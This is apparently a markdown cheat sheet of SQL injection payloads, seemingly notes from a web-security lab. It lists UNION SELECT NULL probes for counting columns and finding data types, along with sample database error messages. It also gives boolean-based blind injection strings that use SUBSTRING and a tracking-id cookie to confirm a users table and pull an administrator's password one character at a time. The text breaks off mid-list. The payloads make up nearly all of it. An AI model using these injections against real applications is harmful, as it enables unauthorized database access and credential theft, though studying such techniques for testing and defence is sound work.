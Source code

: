 <hr>

> using NULL to check columns number:
>
> >     ' UNION SELECT NULL --
>
> >     ' UNION SELECT NULL,NULL --
>
> >     ' UNION SELECT NULL,NULL,NULL --
> *check with the errors returned*
>
> example of error returned:
> > All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

<hr>

> use a data to check the column data type:
>
> >     ' UNION SELECT 'a',NULL,NULL,NULL--
>
> >     ' UNION SELECT NULL,'a',NULL,NULL--
>
> >     ' UNION SELECT NULL,NULL,'a',NULL--
>
> >     ' UNION SELECT NULL,NULL,NULL,'a'--
> *check data type error returned*
>
> example of error returned:
> > Conversion failed when converting the varchar value 'a' to data type int.

<hr>

> testing with substring / substr method:
>
> >     xyz' AND SUBSTRING ((SELECT Password FROM Users WHERE Username='administrator'),1,1) = 's
> the position of s is the test char and string
> *check the returned message like 'welcome back'*

<hr>

> testing with tracking id:
> example:
>
> > Original
> >
> >     trackingid=xyz;
>
> > Verify any returned message
> >
> >     trackingid=xyz' AND '1'='1
>
> > Verify no returned message
> >
> >     trackingid=xyz' AND '1'='2
>
> > Verify the table name users
> >
> >     trackingid=xyz' AND (SELECT 'a' FROM users LIMIT 1)=a'
>
> > Verify if the user administrator exists
> >
> >     trackingid=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a 
>
> > Verify the password length at the position 1
> >